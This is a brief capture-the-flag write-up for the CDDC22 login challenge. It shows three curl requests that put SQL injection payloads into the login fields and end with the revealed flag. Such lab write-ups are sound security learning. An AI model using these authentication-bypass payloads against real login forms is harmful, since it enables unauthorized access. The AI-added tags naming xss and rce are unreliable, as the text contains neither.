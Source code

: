```yaml
---
ai_date: '2025-04-27 05:11:47'
ai_summary: SQL injection vulnerability exploited to bypass authentication and retrieve
  the flag
ai_tags:
- sql
- xss
- rce
created: 2024-06-11T01:17
updated: 2024-07-07T23:08
---
```


Seems like the usual SQL injection

## Try 1

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=admin" \
     --data-urlencode "pw=' or 1=1 --"
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083749/2024/06/77ff3c96de112411090d43bcc2c3c6f0.png)

Hrmm

## Try 2

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1=1 --" \
     --data-urlencode "pw="
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083749/2024/06/4c5ea675746c69118ca3c5b4c3730586.png)

## Try 3

```shell
curl -X "POST" "http://13.215.173.140:51130/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "id=' or 1 --" \
     --data-urlencode "pw="
```

![](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718083750/2024/06/e785ec99d6acc52091341ee433906d6c.png)

```text
Login Success!
Flag is CDDC22{Th1s_i5_51mp1e_SQL_inj3ct10n}
```

erm, was this supposed to happen?